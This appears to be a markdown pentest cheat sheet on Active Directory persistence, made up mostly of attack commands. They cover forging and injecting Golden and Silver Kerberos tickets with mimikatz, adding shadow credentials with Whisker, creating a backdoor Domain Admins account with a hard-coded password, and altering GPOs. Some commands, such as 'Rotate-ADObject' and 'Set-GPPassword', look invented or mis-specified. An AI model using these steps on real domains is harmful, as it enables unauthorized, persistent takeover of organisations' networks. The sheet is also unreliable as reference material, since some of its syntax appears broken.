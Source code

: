 ```yaml
---
layout: notes
permalink: /notes/ad/persist/
title: Active Directory Persistence
---
```


# Active Directory Persistence

## Golden Ticket
```powershell
# Generate Golden Ticket
mimikatz.exe "kerberos::golden /admin:Administrator /domain:<domain> /sid:<sid> /krbtgt:<hash>"

# Inject ticket
mimikatz.exe "kerberos::ptt <ticket.kirbi>"

# Verify access
klist
```

## Silver Ticket
```powershell
# Generate Silver Ticket
mimikatz.exe "kerberos::silver /service:HTTP /target:<target> /sid:<sid> /rc4:<hash>"

# Inject ticket
mimikatz.exe "kerberos::ptt <ticket.kirbi>"

# Test service access
curl -k https://<target>
```

## Shadow Credentials
```powershell
# Add shadow credentials
Whisker.exe -u <user> -d <domain> -p <password>

# Rotate credentials
Rotate-ADObject -Identity <user>

# Verify
Get-ADUser -Identity <user> -Properties msDS-KeyCredentialLink
```

## AD Backdoors
```powershell
# Add backdoor user
net user backdoor P@ssw0rd /add /domain

# Add to admin group
net group "Domain Admins" backdoor /add /domain

# Modify GPO for persistence
Set-GPPassword -Password "NewPass" -Context <OU>
```

## Tools
- Mimikatz: ```mimikatz.exe "kerberos::golden"```
- Whisker: ```Whisker.exe -u <user> -d <domain>```
- PowerView: ```Import-Module .\PowerView.ps1; Add-NetUser```
- BloodHound: ```bloodhound-python -u <user> -p <pass> -d <domain>```
- ADModule: ```Set-ADUser -Identity <user> -Enabled $true```